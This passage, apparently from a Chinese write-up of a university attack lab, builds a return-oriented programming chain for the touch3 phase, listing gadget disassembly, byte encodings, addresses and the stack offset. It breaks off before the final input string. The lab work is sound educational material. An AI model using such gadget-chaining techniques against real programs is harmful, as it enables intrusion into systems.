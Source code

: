 `movq %rsp,%rax`编码为`48 89 e0`, 地址为`0x401aad`。

`movq %rax %rdi`编码为`48 89 c7`，地址为`0x4019a2`。

##### 2. 将偏移传给`$rsi`

先将偏移写到栈里，再通过如下`4`条指令传到`$rsi`：

```
pop %rax
mov %eax, %edx
mov %edx, %ecx
mov %ecx, %rsi
```

在以下的`gadget`中找到这`4`条指令：

```assembly
00000000004019ca <getval_280>:
  4019ca:   b8 29 58 90 c3          mov    $0xc3905829,%eax
  4019cf:   c3                      retq
00000000004019db <getval_481>:
  4019db:   b8 5c 89 c2 90          mov    $0x90c2895c,%eax
  4019e0:   c3                      retq
0000000000401a33 <getval_159>:
  401a33:   b8 89 d1 38 c9          mov    $0xc938d189,%eax
  401a38:   c3                      retq
0000000000401a11 <addval_436>:
  401a11:   8d 87 89 ce 90 90       lea    -0x6f6f3177(%rdi),%eax
  401a17:   c3                      retq
```

`pop %rax`编码为`58`, 地址为`0x4019cc`。

`mov %eax %edx`编码为`89 c2`，地址为`0x4019dd`。

`mov %edx %ecx`编码为`89 d1`，地址为`0x401a34`。

`mov %ecx,%esi`编码为`89 ce`，地址为`0x401a13`。

##### 3. 将`cookie`字符串传给`%rdi`

利用`lea ($rdi,%rsi,1),%rax`，地址为`0x4019d6`。

##### 4. 将`%rax`传给`$rdi`

```assembly
00000000004019c3 <setval_426>:
  4019c3:   c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:   c3                      retq
```

`mov %rax,%rdi`编码为`48 89 c7`，地址为`0x4019c5`。

到此，我们完成了`gadget`的构造，只需继续在栈中依次填入`touch3`返回地址，`cookie`字符串，`0`(字符串结束标志)，再确定偏移即可。

偏移应该是cookie字符串首地址减去(返回地址+0x8)， 中间隔了`9`条指令，因此偏移量为`72`, 即`0x48`

输入的字符串如下：
